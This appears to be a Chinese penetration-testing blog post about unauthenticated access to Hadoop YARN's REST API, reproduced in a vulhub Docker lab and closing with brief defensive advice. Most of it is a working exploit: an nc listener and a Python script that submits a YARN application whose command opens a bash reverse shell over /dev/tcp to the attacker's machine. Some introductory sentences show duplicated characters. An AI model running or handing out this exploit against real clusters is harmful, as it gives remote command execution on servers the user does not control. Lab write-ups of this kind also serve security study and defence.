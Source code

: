 ```yaml
---
title: Hadoop未授权访问漏洞
top: false
cover: false
categories:
- 渗透测试
tags:
- Hadoop
- 未授权访问
abbrlink: 59457
date: 2020-05-26 10:14:47
keywords:
summary:
img:
password:
---
```



#### 漏洞简介以及危害
Hadoop是一个由Apache基金会所开发的分布式系统基础架构,由于服务器器直接在开放了了
Hadoop 机器器 HDFS 的 50070 web 端口及部分默认服务口口,黑客可以通过命令行操作多个目录下
的数据,如进行删除,下载,目录浏览甚至命令行行等操作,产生极大的危害。



#### 环境
vulnhub



#### 测试
启动环境
```bash
docker-compose up -d
```

访问
```
http://192.168.0.100:8088/cluster
```
![](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/Hadoop.png)


**通过REST API命令执行**
利用过程：
在本地监听端口 > 创建Application > 调用Submit Application API提交
1.本机监听
```bash
nc -lvvp 8888
```

2.直接本机执行EXP：`python exp.py`
```python
import requests
target = 'http://192.168.0.100:8088/'
lhost = '192.168.0.105' # put your local host ip here, and listen at port 8888
url = target + 'ws/v1/cluster/apps/new-application'
resp = requests.post(url)
app_id = resp.json()['application-id']
url = target + 'ws/v1/cluster/apps'
data = {
'application-id': app_id,
'application-name': 'get-shell','am-container-spec': {
'commands': {
'command': '/bin/bash -i >& /dev/tcp/%s/8888 0>&1' % lhost,
},
},
'application-type': 'YARN',
}
requests.post(url, json=data)

```

3.反弹shell成功
![](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/Hadoop_shell.png)


#### 防御手段
- 如无必要, 关闭 Hadoop Web 管理⻚面。
- 开启身份验证 ,防止未经授权用户访问。
- 设置“安全组”访问控制策略,将 Hadoop 默认开放的多个端口对公网全部禁止或限制可信任的 IP 地址才能访包括 50070 以及 WebUI 等相关端口。











